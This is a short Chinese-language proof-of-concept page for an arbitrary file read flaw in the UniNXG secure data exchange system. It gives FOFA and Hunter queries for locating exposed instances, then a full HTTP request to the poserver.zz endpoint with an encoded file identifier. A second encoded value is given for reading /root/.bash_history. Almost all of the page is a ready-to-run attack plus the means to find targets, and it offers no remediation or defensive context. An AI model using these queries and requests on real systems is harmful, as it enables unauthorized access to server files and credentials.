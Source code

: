 # 联软安渡 UniNXG 安全数据交换系统poserver.zz存在任意文件读取漏洞
## 资产搜索
fofa

`body="UniExServices"`

`icon_hash="1397838899"`

hunter

`web.icon="928831999d8de4c41d271319631ab01b"`

![](img/index.png)

## POC
```url
GET /UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI= HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

```

![](img/fileRead.png)

读取/root/.bash_history 历史命令

`KmcgY3MtJm0lcmUsFl85ZhVmL3E4bSZ3amQvaitsF2srO2ckKW0icitsOHI/bis7OGM8cg==`